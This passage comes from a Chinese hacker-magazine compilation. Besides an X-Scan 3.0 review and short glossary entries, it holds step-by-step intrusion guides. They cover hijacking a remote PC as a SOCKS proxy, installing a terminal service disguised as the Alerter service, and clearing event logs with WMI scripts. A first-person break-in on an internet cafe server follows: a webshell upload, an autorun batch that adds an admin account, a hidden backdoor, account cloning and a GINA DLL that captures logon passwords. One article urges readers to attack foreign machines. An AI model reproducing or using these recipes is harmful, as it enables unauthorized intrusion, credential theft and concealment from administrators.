8. 这时在被控电脑端的任务管理器中会增加进程rundll32，在服务中增加了“Rising update service”的服务，默认为自动启动。当然，你还可为这个服务添加如“瑞星自动升级服务，如果此服务被停止，那么瑞星杀毒软件将不能获得升级服务”等迷惑性语句。
9. 安装sockscap软件，最新版本是2.35，2004年5月1日到期，下载地址：www.sockscap.com。
10. 配置：运行sockscap，打开“File → Settings”，弹出图5所示画面。在“SOCKS Server”中填入你已经安装了rundll32文件的机器的IP地址；“Port”中填入设定的端口7749；“Protocol”选择SOCKS Version 5，“Name Resolution”选择Resolve all names local。然后单击“确定”，配置完成。


图5


图6

11. 将需要上网的东东（如IE、QQ、游戏等）拖入到SocksCap Control面板中（图 6），免费上网啦！

最后，友情提醒，既然你是通过别人电脑上网，还是义务为被控电脑升级、打打补丁什么的。“他好，我也好”嘛！
（本文提到的以下软件光盘中有收录：pslist.exe、kill.exe、snake代理跳板、ultraedit、sockscap、elsave）

# 刀光剑影 X-Scan

很荣幸的拿到了X-Scan 3.0 的最新测试版，此版本基本已成型，估计大家看到本文时，正式版已经出来了。关于 X-Scan，我勿需多说，这是安全焦点（www.xfocus.org）成员 glacier 写的一个漏洞扫描探测器。相信大家都用过它的老版本（即经典的 X-Scan 2.3）。下面来感受一下 X-Scan 3.0 的强悍之处。

## 一、X-Scan 3.0 界面

X-Scan 3.0从界面上看，没什么变化之处，但事实上该版本作了很大改动。从我测试的情况来看，这些细微的改进之处，无不体现了作者高超的编程水准和踏实的代码作风。

首先，我们看看X-Scan 3.0启动后的主界面（图1）。从这里可以看出几个改变，工具条下新增了“普通信息/漏洞信息/错误信息”三个选项卡，工具条上还新增了一个在线升级的小图标。


图1

我一直坚信繁琐的说明比不上一次实战经历，所以下面我就用X-Scan 3.0对本地测试主机进行一次完整扫描。通过扫描实战既可以让新手迅速了解X-Scan 3.0的使用，还可让老朋友快速体验出新功能。

## 二、实战演练

1. 启动X-Scan 3.0，点击工具条上的第一个按钮（或点击“设置”菜单）进行扫描模块的设置（图2）。
这里我们可看出，X-Scan 3.0新增了“Nessus攻击脚本”项，Nessus是个出色的Linux上的扫描器，有较完善的脚本列表。

通过X-Scan 3.0，你可使用Nessus完善的脚本列表对主机进行安全检测。另外，以前的插件有许多改善，比如“存活主机”插件的描述：该插件检查目标主机是否在线，同时被动识别目标主机操作系统类型。


图2

如果你还要使用以前版本中的“扫描模块”，比如SSL漏洞检测，需要拷贝老版本中的libeay32.dll和oncrpc.dll两个链接库过来。一些老版本中的“扫描模块”在3.0中不能被正确识别和载入，需要升级模块，这一点希望在正式版中有所改进（友情说明：事实上，老版本中的部分插件在这里已经没有必要支持了，因为NASL脚本已经完全取代了这些插件）。既然我们是测试，所以索性将全部模块选中，然后继续。
2. 点击第2个按钮，我们来设置扫描参数（或点“设置”菜单）。从这里我们可以看到，可设置的地方比X-Scan 2.3版本多了很多，比如它默认在扫描完成后自动并显示生成.HTML 格式扫描报告（图 3）。有了详细的扫描报告，对我们来说就方便多了，这点可跟商业扫描器相媲美。


在“高级设置”中，为保险起见，我们设置“跳过没有检测到端口开放的主机”。如图 4。


在“端口相关设置”中，X-Scan 3.0 有了更准确的端口列表，比老版本更细致（图 5）。


在“网络设置”中，我们可指定用来扫描的网卡（图 6）。


在“NASL 相关设置”中，我们可设置是否使用对主机有破坏作用的脚本，默认是跳过的（图 7）。最初这里比较让我郁闷，因为最开始我没有使用“跳过针对主机的破坏性脚本”选项，结果在扫描时脚本直接对测试主机进行了 DOS / 溢出测试，导致测试主机因为 DCOM RPC 重新启动。

不过这个问题很容易解决，在界面中我们点击“选择脚本”按钮，会弹出图 8 所示的脚本选择窗口。在这里我们可以按照漏洞类别、风险等级、检测手段来选择相关漏洞，也可在右侧点击列表中的条目来手动选择。这样扫描时就会只使用我们自定义选择的脚本进行有目的的扫描了。如果在左上方重新起个名字，点击“确定”后就会保存为新的列表方案。


3. 设置完成后，我们点击“确定”，然后点击工具条上的第 3 个按钮开始对目标进行扫描测试（图 9）。


在扫描过程中，如果因为其它原因或某个主机停止响应，我们可随时在主机扫描状态列表中右击鼠标，选择“终止对当前主机的检测”和“终止对当前内容的检测”（图 10），这个功能相当方便。


4. 扫描完成，X-Scan 3.0会自动弹出扫描报告（图11）。我们也可在扫描过程中点击扫描界面上的漏洞信息选项卡，以查看扫描到的漏洞（图12）。
X-Scan 3.0的报告较之以前的有了很大改观，我们可在设置中选择生成TXT还是HTML格式的报告，整个报告采用表格分割的形式，看起来条理清晰、主次分明，而且具体漏洞描述相当详细。


5. 升级模块。国内的扫描器，老版本的X-Scan和Fluxay都相当优秀，但它们也有其他扫描器最大的弊端：就是不能及时更新漏洞数据库。现在的X-Scan 3.0提供了在线升级功能，这意味着人们将不断为漏洞数据升级，奉献自己宝贵的时光。我们可用X-Scan 3.0检测最新的漏洞数据。想到这里，我不禁对那些一直坚持贯彻hacker精神的人们充满了敬意。图13是即将完善的X-Scan 3.0在线升级模块。


## 后记
X-Scan 3.0的体验就到这里了，总体说来简单、易用。从处处体贴的细微修改到完整、漂亮的扫描报告，再到即将完善的在线升级模块，我们对作者glacier的技术与心血充满了无限钦佩。从冰河世界走出来的glacier，再次让我们见识了侠者的风范和不俗的身手！（注：本文作者用的X-Scan 3.0为测试版，不久glacier会推出正式版，到时大家可到安全焦点网站下载。）

# 远程安装替换终端服务

backe

《黑客X档案》2003年12期杂志中的“消除终端服务的痕迹”一文引起了我的兴趣，读完该文后除汗颜作者多次重启对方机器外，也对其胆识深表敬佩，偶怎么就不敢随便重启肉机的“机器（这时只听温柔一刀嘴里慢慢挤岀三个字：乡一巴一佬！）？不过，我并不赞同作者的做法，包括对终端服务的替换法、重启对方机器等（某Hacker技术的Fans问：难道你有更好的方法？）。不赞同的主要原因有：
1. 删除、修改C:\WINNT\system32及C:\WINNT\system32\dllcache下的文件。由于受系统文件保护机制的影响，一旦删除C:\WINNT\system32下的文件，系统即会从C:\WINNT\system32\dllcache目录下的备份文件来进行恢复。而如果C:\WINNT\system32\dllcache下的文件也被同样修改或删除，那么系统很快就会跳出一个对话框，提示有文件受到修改，需要放入系统安装盘进行修复。虽然我们可按“取消”等按钮不予理会或忽略跳过，但对方此时如果在机器旁边就惨了（当然，如果对方的机器重启几次都没问题，连接上去再按这几个按钮也不成问题）！

2. 其实，替换系统服务不用这么麻烦，通过对注册表的导入导出、修改，并用sc配合来实现是不难做到的。服务替换完成后不用重启机器即可使用，当然，对于个别（如终端）需要重启后才能生效的系统服务除外。
现在我就给大家演示一下如何一次性完成对远程机器进行安装、替换终端服务。当然，安装、替换完成后，由于该服务原有特性的限制，需要重启动机器后才能正式生效（某Hacker技术Fans：这个连外星人都知道，还用你说）。
要完成远程安装、替换终端服务可分成两部分来说：一个是远程没有安装终端服务，一个是已经安装了终端服务但已被禁用。在这里我从远程机器没有安装终端服务说起。如果远程机器安装了终端服务但被设为禁用，可从下文提到的第二步开始做起（即替换终端服务）。
此段远程安装、替换终端服务需用到的工具有：
rots.vbs: zzzEVAzzz写的一个远程安装终端服务的脚本，在安装时还可选择更改终端服务的端口号及是否重启对方机器等。
rots.vbs是个不错的脚本，只可惜被一些杀毒工具认为是病毒。
Opentelnet: redfom写的利用IPC$打开远程机器telnet服务的工具，该工具也被一些杀毒工具认为是病毒。可惜！

Sc：微软资源工具箱的一个工具，主要用于编辑、修改系统服务，功能非常强大。WinXP/2003已经内置了该工具。（上述工具可到netff的烂站下载，下载地址是：http://www.ntfocus.com/backe/term.rar）

由于此次是给大家做演示，所以我采用IPC$来对我的另一台机器进行安装、替换，该机的操作系统是Win2k Server。系统刚安装完成，一切都是默认安装设置。由于我采用的是IPC$连接方式做演示，所以不用复制任何工具到对方机器上（跟我一样，用Modem拨号上网的兄弟最喜欢听到这句话了）。如果你是通过溢出等方法得到对方的一个Shell的话，只需将rots.vbs、sc.exe这两个文件上传到对方机器进行安装、替换即可。

现在开始行动！

首先利用rots.vbs对远程机器进行终端服务的安装，rots.vbs的运行语法如下：

```
cscript ROTS.vbs <目标IP> <用户名> <密码> [服务端口] [自动重启选项]
```

cscript 文件是系统自带的脚本宿主程序。下面我们用cscript.exe来调用脚本，操作结果如图1。


图1

在图1中，ROTS.vbs对远程机器进行终端服务的安装，并修改终端服务的端口为7788，你也可以改成其他非常用的端口。

> 小提示：不要在rots.vbs后加上的“-s”或“-r”参数，它们的作用是重启、强制重启对方机器。否则，我写此文就失去几分意义了。

当运行结果与图1一样时，表示已成功地在远程机器上安装了终端服务，这时对方的终端服务启动方式将被改为自动启动。要使其马上生效，只需重新启动机器即可。

在这里不要重启对方机器，我们还有一个替换系统服务的任务没有完成。

上面我们已完成对远程终端服务的安装，现在我们来开始替换系统服务。要替换系统服务，必须telnet到对方的机器上才能进行。现在我们用opentelnet打开远程机器的telnet服务（图2）。

现在，对方的telnet服务已被开启，重新打开另一个CMD窗口并telnet过去。图3表示成功登陆对方机器。


图2


图3

如果你是通过溢出得到对方的一个shell，此时的环境跟我现在的基本相同，只是我的工具在本机，而你需要将该工具传到对方机器。

现在我们来对系统服务进行替换，被替换的系统服务最好是系统自带且为那种不重要、默认为自动启动的服务。在这里我用终端服务替换掉Alter服务，该服务是系统自带且启动方式为自动启动，而它在系统中的作用可有可无。下面开始替换！

在telnet过去的命令行下输入（图4）：

```
regedit /e backe.reg HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService
```

图4 这个命令的作用是将对方机器的终端服务在注册表中的信息导出。现在将这个导出的文件传回本机进行修改（图5）。


图4


图5

选中传回来的注册表文件，并按右键选择“编辑”，系统将以记事本的方式打开该注册表文件。再选“编辑”菜单下的“替换”选项，在“查找内容”处输入“TermService”，在“替换为”处输入“Alterer”（注意：Alterer首字母要大写）。如图6。


图6

按“全部替换”按钮进行替换。全部替换完成后，将“Description”、“DisplayName”两项后面的内容替换成与Alterer服务原来的内容一样（图7）。


图7

全部修改完后保存退出，将该文件复制到对方的机器上，并输入regedit /s backe.reg，以导入注册表中。这时对方机器中的Alterer服务显示的结果如图8。


图8

从图8中是不是看出这个服务与原来的Alterer服务有些相像了？只是它显示该服务调用的程序是C:\WINNT\System32\termsrv.exe。现在我们来将该服务调用的程序更改为别的程序名，就改成alterer.exe吧！Alterer服务调用的程序是alterer.exe，多多少少能蒙混过关。这里我们将termsrv.exe文件复制并更名成alterer.exe，在远程机器操作如下：

```
copy winnt\system32\termsrv.exe winnt\system32\alterer.exe
```

文件复制、更名后，现在用sc来设置Alterer服务调用的程序是alterer.exe。本地操作如下（图9）：

```
sc \\IP config binpath= C:\WINNT\system32\alterer.exe
```

注意：此外的“C:\WINNT”要大写，以免为这些无谓的小节引起对方的注意，还有，“=”号后一定要空出一格。


对了，刚才给远程安装终端服务时，终端安装程序一执行完毕，系统默认的终端服务TermService就处于自动启动状态，为避免该服务与替换后的服务在机器重启后发生冲突、引起对方的怀疑，在这里一定要将该服务的启动方式设为禁止。用sc禁止该服务操作如下（图10）：
`sc \\IP config TermService start= disabled`


至此，远程安装、替换终端服务基本完成。由于系统终端服务在安装完后一定要重启才能生效，所以现在只需等终端服务的机器重启，然后即可用终端客户端连接。

## 终端服务客户端的连接

好了，终端服务安装、替换完成，对方又重启机器让终端服务生效了，现在我们可用终端服务客户端连接它了。因为我们刚才修改了终端服务的默认端口，而终端客户端默认是3389端口，如果要连接其他端口的终端服务，则需要修改客户端的连接端口。

考虑到一部分技术较菜的朋友不知道如何修改客户端的连接端口，这里就简单介绍一下（在我刚才提到的工具包中已经包含了终端客户端的连接工具，该工具需要安装后才能使用）。

客户端安装完成后打开：“开始→程序→终端服务客户端→客户端连接管理器”，在打开的对话框中选择“文件→新建连接”，这时会再打开一个新的对话框，是要求输入服务器相关信息的向导，一般只需给该连接起个名称、输入相关IP及连接时的屏幕设置即可，非常简单。在创建完该连接后，选中它并按“文件→导出”，然后输入保存的名称即可。再用记事本打开导出的文件，找到“Server Port”一项（图11）。


将3389改成你要连接的端口号，保存退出。现在它可投入使用了，方便吧！
至此，终端客户端连接修改完成，现在可开始干活了。

## 善后处理及检测

下面说一下我对终端服务的一点看法。
用终端客户端登陆并干完活儿后，如果即将将当前的终端客户端连接窗口关掉，那么通常各客户端的连接信息还保存在服务器中，直至在服务器重启后才消失。但在服务器重启前，系统可能会提示还有终端客户端连接本机，是否要强行断开。如果这个对话框被你的肉机管理员看到而他的机器又没有安装终端服务的话，那岂不是“此地无银三百两？”。但如果在退出前“注销”一下登陆信息就不相同了，服务器会很快清除已注销了的终端客户端的连接信息。对于这一点，那些喜欢用终端的朋友得记住了，以后用终端客户端连接时不要习惯性地将当前整个窗口关闭了事，要知道服务器还记录着你的相关信息。

顺便说一下，以前有人问到：为什么有时连接终端服务时会提示用户已超过最大连接数，而实际上当前连接的用户数并没有超过限定的连接数？这是因为以前有些用户通过终端客户端连接到终端服务后，在退出前没有注销而是直接关掉连接窗口，而终端服务还记录着这个客户端。

还有就是，在安装了终端的机器可通过query命令查询当前登陆用户的相关信息。如果你是管理员，你的机器中并没有安装终端服务，你会用到这个命令吗？再有就是替换系统自带的文件这个问题，我认为很有必要，主要原因还在于对方管理的问题。对终端服务而言，不管你的终端服务文件改成什么文件名、存放在那里，它始终都需要打开一个端口，存在一个进程。而对于存在进程这个问题，我们可采用更改该文件名等方法来骗过管理员，但对于它打开的端口则无法将其关闭（关闭了怎么连接？）。实质上，不管你的终端服务做得如何隐藏，只要它启动着，在CMD下面一运行fport工具，整台服务器都开了多少个端口、端口对应的程序是什么就一目了然了。替换掉query命令也很没有必要，一个会用query命令查询系统的管理员肯定会用fport工具查询系统的程序运行情况。当然，我并不是建议大家不要做任何隐藏，而是觉得干掉系统文件有点太明显，没必要。当然，替不替换系统文件是件萝卜青菜的事情，而替换系统服务，实质上只是增加管理员查看是否存在后门的难度罢了。只要开了端口，在端口查询工具面前也是无处藏身的。

## 小结

好了，关于远程安装、替换终端服务的方方面面就说到这里。希望兄弟们在玩的时候不要拿亲爱的国内朋友开刀，尽量拿国外（如日本）的机器做练习，他们对你的免费检测、管理是非常welcome的，即使跟他们玩出火也不怕。
（本文提到的工具可在光盘中找到）

## 什么是路由器（Router）？

路由器（Router）应该是在网络上使用率最高的设备之一了，它的主要作用就是路由选择，将IP数据包正确的送到目的地，因此也叫IP路由器。打个比方来说吧，它的作用就好像我们的邮局，当你把信（数据包）写上地址（封装上IP包头，里面含有目的地址）并投递后，邮局（路由器）就会根据目的地址（目的地的IP）来选择如何将信（数据包）投递并送到正确的位臵（目的地址）。

## 什么是蜜罐（Honeypots）？

蜜罐好比是情报收集系统。蜜罐好像是故意让人攻击的目标，引诱黑客前来攻击。所以攻击者入侵后，你就可以知道他是如何得逞的，随时了解针对你的服务器发动的最新的攻击和漏洞。还可以通过窃听黑客之间的联系，收集黑客所用的种种工具，并且掌握他们的社交网络。

## 什么是脚本注入攻击（SQL Injection）？

所谓脚本注入攻击（SQL Injection），就是攻击者把SQL命令插入到WEB表单的输入域或页面请求的查询字符串中，欺骗服务器执行恶意的SQL命令。在某些表单中，用户输入的内容直接用来构造（或者影响）动态的SQL命令，或作为存储过程的输入参数，这类表单特别容易受到SQL注入式攻击。


# 傻瓜黑客

## 入侵中的新路径

### ——浅谈 WMI 的利用

PYTHON

### 前言

自从计算机网络出现后，互联网上的入侵就一直持续着。而对众多 Hacker 和 Cracker 来说，从最早的基于字符的客户终端到今天的 GUI 界面，他们一直在经历着。从早期 Win9x 系统中使用 TCP 139端口进行 NETBIOS 会话，到 Win2k 中出现 SMB 专用的 TCP 445 而实现 SMB 会话劫持，再到 RPC 漏洞……
事物就是这样，只要它存在，就会不停地发展，并且不停地出现和重复着同样的或类似的错误，Windows 操作系统就是典型，它的存在和发展永远不会让入侵者们失望！在 NETBIOS 会话成为过去、SMB 会话劫持不再可能的时候，微软又为入侵者们推出了一种新的连接方法——WMI（Microsoft Windows 管理规范）。

### 温故知新WMI

其实，WMI 并不是在 Windows 2000 中才出现的，只是由于 Windows 2000/NT 系列的一些特性，导致 WMI 在这些系统上的表现比较突出。WMI 的目标是用来管理越来越庞大、越来越复杂的企业系统、应用程序及网络。
目前，WMI 的最新版本是在 Windows 2000 中整合的版本。因此，如果你使用的是 Windows 2000，那么你使用的 WMI 就是目前的最新版本了。
WMI 的管理结构是分层分次的。在最上层是我们用户，用户通过对象管理器来管理我们的对象，这里的对象管理器需要服务“Windows Management Instrumentation”的支持。管理过程中，被管理对象会提供相关信息给对象管理器，然后，高层用户通过与对象管理的交互来实现管理。
（以上是 WMI 模型的简单叙述，关于 WMI 的详细资料请参阅微软站点上的相关文档）

### 通过WMI我们能做什么

从 WMI 的管理层次结构来看，对我们高层用户来说，是否使用 WMI 进行管理都是透明的。因此，除非你自己去与 WMI 底层沟通，否则，WMI 到底能让我们做什么，我们也不能很清楚地看到。正因为如此，为了我们能更明确地理解它，这里我提供两段 VBScript 脚本，给大家看看 WMI 所能做到的：

- 1.备份日志（LogBak.vbs）
```vbscript
Set LogFileSet = GetObject("winmgmts:{impersonationLevel=impersonate,(Backup)}").ExecQuery("select * from Win32_NTEventLogFile where LogfileName='Application'")
for each LogFile in LogFileSet
RetVal = LogFile.BackupEventlog("c:\LogBak.LOG")
if RetVal <> 0 then 'WSscript.Echo "Log Backed Up"'
next
```
这段程序提供一个备份应用程序日志的功能，应用程序日志将被备份到 C 盘根目录下的 LogBak.LOG 文件中。

- 2.删除日志（CleanLog.vbs）
根据上个脚本，类似地做下简单修改，我们可备份并删除某一项日志：
```vbscript
Set LogFileSet = GetObject("winmgmts:{impersonationLevel=impersonate,(Backup)}").ExecQuery("select * from Win32_NTEventLogFile where LogfileName='System'")
for each LogFile in LogFileSet
RetVal = LogFile.BackupEventlog("c:\LogBak.LOG")
if RetVal = 0 then 'WSscript.Echo "Log Backed Up"'
RetVal = LogFile.ClearEventlog()
if RetVal = 0 then 'WSscript.Echo "Log Cleared"'
next
```
这段程序的作用是删除安全日志，并对其进行备份，备份路径为 C:\LogBak.LOG。图1为 logbak.vbs 和 cleanlog.vbs 两段脚本的运行结果，图2为 LogBak.vbs 备份日志时生成的结果（使用记事本打开），图3为清除日志后的结果（系统日志被清除）。


图 1


图 2


图 3


图 4

在这两段脚本中，Win32_NTEventLogFile 类模拟 Windows 2000/NT 中的事件日志。
这两段脚本都比较简单，我只是简单说明了一下而已。如果大家有兴趣，可参考一下微软的 MSDN，那里有相当多的

黑客X档案 2003 2004年合订本(下卷)

79


WMI 资料，并且还教大家如何访问 WMI 提供的类。

## 四、WMI 在入侵中的应用

通过上面两个例子，不难看出，如果利用得当，WMI 也可为我们的人侵做很多事。在网上，有两个非常流行的利用 WMI 的小工具，在这里我给大家简单介绍一下。

- 1. rots.vbs
图 4 为 rots.vbs 的帮助信息。
rots.vbs 用来开启对方的 Terminal Service 服务，使用方法很简单，命令格式为：
`cscript rots.vbs targetIP username pass-word [port] [/r]`
其中，“[port]”和“[/r]”是可选参数。默认情况下，开放 3389端口11。如果想要修改，在“[port]”处写上你要修改的端口，“/r”的作用是开启服务后重启计算机。
`cscript rots.vbs targetIP username pass-word 5277 /r`
上面这样的命令就是开启了对方的 Terminal Service，并修改端口为 5277，服务安装完成后自动重启。
该工具的使用方法很简单，就不多说了。

- 2. Remoxec（图 5）
这个工具也是利用了 WMI，在获得用户名和密码后，如果通


过 IPC$ 这些常规连接方式无法连接，我们就可试试这个工具。
填上“地址”、“用户名”、“密码”和“命令或程序名”后，就可点击“Executing”(执行)了。因为该工具不能回显，只能返回一个运行成功的提示对话框，因此，像 net user 这样需要通过回显才能知道结果的命令就不要用了。
图 6 为使用 remoxec 执行命令的结果，这样，我们就开启了192.168.0.77 的 telnet 服务，通过返回信息，可获得运行该命令时的进程 ID 号。

图 7 表示 192.168.0.77 的 telnet 服务已启动。

在人侵过程中，当我们遇到困境时，这两个工具都能解教我们于水火之中……

## 五、如何防御和检测利用 WMI 的人侵及 WMI 后门

如果你想做到治根治本，可试试停掉 WMI 相关的服务，服务有两个，分别为 Windows Management Instrumentation 和 Windows Management Instrumentation Driver Extensions。但在 Windows 2000中，WMI 已经规范化，在相当多的应用程序中都可能用到 WMI，而且这两个服务和其他服务还存在依存关系。因此，不到逼不得已，不要随便去动这两个服务。

为了更好的防御/利用 WMI 的人侵，我们可以分析 WMI 相关工具的过程。


以 remoxec 为例，填上对方的主机地址、用户名和密码，然后


黑哥兵工厂 2005、2004年合订本(下)附光盘

随意写上一个命令，点“Executing”以运行。在对方主机上 sniffer，来看一下结果，结果记录下后，我们先来看一下最关键的东西——端口。图 8、图 9 为 sniffer 结果。

从图 8、图 9 中可看出，被入侵的主机（由 192.168.0.20 充当被入侵主机）使用的端口是 135。另外，如果细心的话，我们还可看到一些东西——那就是验证方式，使用的是 NTLM。虽然这种人侵方式使用了 Windows 自带的服务，但其验证方式首选还是 NTLM（图 10）。

从图中，我们还可以清楚地看到验证过程，图 10 为 challenge 的内容。在下一行中，我们还可看到 LM HASH 和 NTLM HASH（图 11）。


因为本文和 NTLM 关系不大，因此就不多说了。接下来，我们需要看的是 WMI 是如何工作的。注意看图 12，这是 WMI 开始工作的第一步，在图中最上面被圈住的部分，很明显地可看到“first fragment”字样。

除此外，最重要的还是看下面的详细信息，不难发现，里面有“CIM”的字样，CIM 叫做公用信息模型，WMI 对 CIM 提供了完整的支持；WMI 在进行工作和查询的过程中，CIM 一定要被使用到。因此，当看到 CIM 字样，基本上就可确定 WMI 已开始工作了。


也许大家认为这还不足以说明，所以我们继续往下看（图 13）。在图 13 中会看到“middle fragment”这一栏，然后看看下面的详细内容，可看到“Win32API | Process”字样。在这里，已经开始调用 API 了，那 WMI 是否已经开始工作了呢？不要着急，我们继续往下看，还会看到一个带有“middle fragment”字样的段（图 14）。

仔细查看内容，在详细的信息栏中，可清楚看到这样的字样：Win32_process，在 WMI 提供的类中，启动应用程序时使用的类就是 Win32_process。因此，从这一步开始，WMI 已经开始做我们想让它做的事了。


当程序启动完成后，WMI 的工作就应该结束了（图 15），从图 15 中可清楚看到“last fragment”字样，到这里，工作就完全结束了。


至此，整个 WMI 过程就结束了。大家应该很清楚地看到，整个过程中使用的端口是 TCP 135。因此，针对这类防御，我们可使用防火墙屏蔽 TCP 135 端口，这样就可达到防御类似的人侵和连接的目的。

本文只是简单地对 WMI 进行了分析和讲解，希望能给读者一些了解，并且从中能获取到有用的知识。

（文中提到的 LogBak.vbs、CleanLog.vbs、rots.vbs、Remoxec 光盘中有收录）

# 傻瓜黑客

# 菜鸟接触篇

愁种子

前段时间，WEBDAV、RPC 任意代码执行漏洞层出不穷，但对我等大菜鸟来说，真正会利用的并不多。有时，千里迢迢趟过重洋去寻找肉鸡，幸运的话也许会找到一二台，但只是加个管理员、开个IPC$，至于一些高深的后门……玩多了，真有点像小孩玩泥沙，自觉没趣。近来我盯上了所在小区网吧的几台服务器……

我用X-way进行地毯式搜索，看来还没有我想像中的那么差，一连十几台都毫无反应。

我再用X-Scan-v2.3细扫（图1），终于发现个FTP弱口令。


我不太喜欢CMD下复杂的命令，还是用我的leapftp吧！用户名：FTP，密码为空，设置好后连接，就这样连上去了。看看是否有写权限，试着上传正风靡的海阳ASP木马2003版，果真成功了（图2），而且9个文件完好无缺（看来对方的杀毒软件还是落伍的）。


在IE 地址栏输入http://*.*.*.*/6ne/index/index1.asp，出来了，输入密码，图3就是大家熟悉的界面。


ASP漏洞作为脚本漏洞的其中一员，真的很厉害，如果不是细心勤管理的网管，那很可能被别人长期控制（除非他重装系统或停掉IIS服务）。打开CMD，用ASP来看一下权限如何：dir c:\ /ar，结果一览无遗（图4）。


设想一下，在“C:\Documents and Settings\Administrator\「开始」菜单\程序\启动”加个后门上去，却连看的权限也没有。没戏！不等了，加个管理员看看，执行命令：

```
net user dragon dragon /add
net localgroup administrators dragon /add
```

没有提示，好象ASP执行命令是这个样子，赶快进行IPC$连接看看。执行命令：
net use \\对方IP\ipc$ "dragon" /user:"dragon"

如图5所示，提示未知用户名或密码错误，难道加管理员失败了？用NET USER 命令查看一下，根本没有用户“dragon”，空欢喜一场！仔细想想，得到的用户应为GUEST的权限，没有Unicode漏洞，常用的ISPC提升权限不行了。还有就是，ptsec.exe一放上去就失踪，ErunAssx.exe倒没杀，但也只提示提升失败……


胶尽脑汁去想，还有什么适合我等大菜鸟的。咦！还有一个正是热着的rmtsvc.exe（一款既为控制端也为服务端的绿色软件）。我们先找到其虚拟目录，再用DIR命令一个个地找，终于发现在D:\index下。上传rmtsvc.exe到D:\index\index1下，在cmd.asp执行，但进度慢如蜗牛，5分钟过去了，还在闪着，倒霉！就这样收手，我不甘心，现在我有写权限，要下载其网吧的会员数据库可谓是垂手可得，但这涉及到严重的安全问题，我还是不招惹它了。现在下载缺少ASP空间，动网木马都没有它的用武之地了，这正好，如图6配置好动网首页，当然密码解霸的生成文件不要放到肉鸡上，很容易被查杀的。


将动鲨网页生成器生成的三个文件上传到虚拟目录下很深的一个目录（这里也有大量的ASP文件）下，在主页中加入代码：

```
<iframe src="http://*.*.*.*/index/index2/mm.html" name="zhu" width="0" height="0" frameborder="0">
```

这只是将原来的mm.html文件改为详细的地址罢了。至此，由于笔者技术局限，到这个时候终于深深地感受到什么是心有余而力不足了！

经过一晚的痛定思痛，无论如何我都要豁出去，开始布设陷阱，在其D盘下建立文件autorun.inf，其内容为：

```
[autorun]
open=c:\winnt\system32\ctrl.exe
```

# 傻瓜黑客

用命令 Attrib +H +S +R将其改为系统、只读、隐藏属性，且看我如何制造 control.exe(是不是和控制面板的control.exe有些雷同呢)。先编辑好一个批处理 control1.bat，内容为：

```
@echo off
net user dragon dragon /add
net localgroup administrators dragon /add
del c:\winnt\system32\control.exe
```

下面就用bat2com.exe和com2exe.exe将control1.abat编译为control1.exe。bat2com.exe其格式为：bat2com.exe 文件名
执行命令（图7）：bat2com.exe control1.bat

com2exe.exe其格式为:com2exe.exe 文件名
执行命令（图8）：com2exe.exe control1.com

是不是成功编译了？将其上传到肉鸡的SYSTEM32下，只要管理员打开D盘，就会自动创建一个名为“dragon”、密码为“dragon”的管理员，且会将自身的control1.exe删除（当然，对方不禁止自动运行才行）。


图7


图8

下面利用文件夹来安装木马，目标为虚拟目录下的index2下（毕竟这里有许多EXE文件，用来编辑网页的）。

先配置好最新的插入线程后门——魔鬼4号，打开文件edid devil4（图9），单击“浏览”选择DEVIL4的具体路径，端口为你要连接的端口，密码也一定要设置，进程名不是很熟悉，就保留它，单击“配置”即可。

将DEVIL4上传到肉鸡的D：\index\index2下，并在此目录下的folder.

htt的文件头插入图10所示代码。但要记住加上只读和隐藏属性。


图9


图10

其中，“devil4.exe”就是你设想设定运行的程序。别无他法，现在只有守株待兔了。


一天又糊糊涂涂地过去了，得看看是否有猎物。说起来并不存在多大希望，但失望越大希望就越大，果真被我Telnet上了（图11）。其中，“2003”是DEVIL4配置的端口。先说一下DEVIL4的命令用法：命令 >密码


图11

当务之急就是加个管理员，执行图12所示的命令，命令完成，用net user查看添加的管理员（图13）。


图12


图13

还是用小格的CA克隆个管理员安全些，ca的格式为：ca \IP 管理员帐号 管理员的密码 你的帐号 你的密码
执行ca \对方IP dragon dragon

guest dragon，想把GUEST帐号克隆为和DRAGON相同权限的帐号（图14），在最后出现错误了。


图14

IPC$与ADMIN$的共享开放对CA的成功起着关键性的作用，我记不清是哪位前辈说过此话。好，现在Telnet上去，用net share查看共享，真的没有共享ADMIN$。我来替他共享一下吧！用命令net share admin$，成功！如图15。


图15

再次执行CA（图16）。没错，问题果然出在这里，这次成功了吧！为了执行命令的简化，赶快请出我的至宝psExec，它的格式为：

```
psexec \对方IP -u 用户名 -p 密码 c:\winnt\system32\cmd.exe
(当然C盘为对方的系统安装盘)
```

主要功能是调用对方的CMD，执行主机上的命令像在本地执行一般。我这里执行（图17）：psexec \对方IP -u dragon -p dragon c:\winnt\system32\cmd.exe
来到了对方的c:\winnt\system32（但我现在用惯了魔鬼4号，下面我还是用魔鬼4号）。再想，最急需的莫过于当前管理员的密码了，现在我就搞到当前的管理员密码！


图16

图17


黑客手册2003 2004年合订本(下)


# 傻瓜黑客

需用到 ntshellgina.dll，将其 COPY 到对方的 C:\WINNT\SYSTEM32 下，做个注册表文件 long.reg，如下：

```
Windows Registry Editor Version 5.00

[hkey_local_machine\software\micro
soft\windows

nt\currentversion\winlogon]
"ginadll"="c:\winnt\system32\nt
shellgina.dll"
```

用命令 regedit /S long.reg 导入，只要重启后管理员再次登录，就可在 winnt\system32 下面找到 msole32.srg 文件，登陆过的用户名和密码就在这个文件里（当然，为了更隐蔽，可将 ntshellgina.dll 改名，注册表文件也指向相应的文件即可）。这时可用命令 type 显示（图 18）管理员密码：

```
type c:\winnt\system32\
msole32.srg
```


也可在建立 IPC$ 之后（图 19），用命令 type \\对方ip\admin$\system32\msole32.srg。当前管理员的密码为1984172，有了这个我就放心多了。当然，要获取当前管理员的密码，也可用 findpass.exe 与 pulist.exe 相配合，其效果也不错。


终端连接那么好用。

听说 DameWare 无所不能，这里我就要好好发挥一下。我用的是汉化版 DameWare Mini Remote Control，设置很简单，但我还是得提醒一下新手，在“附加设置”里去掉默认的“启用系统栏图标”选项（图20）。在“通知对话”中去掉默认的“连接时通知”选项（不然的话，连接时会在对方出现连接提示），如图21。

出乎意料，对方的屏幕竟在我的控制之下（但要记住，要在“查看”中选择“仅仅查看”），如图22。

对于我等菜鸟，最好莫过于终端连接了。现在我有 Admin 权限，可自在多了，TELNET 上去时，用 net start 查看开放的服务。找了大半天也找不到 Terminal service 的服务名，这又得自己开启，但依然没有


# 菜鸟必读

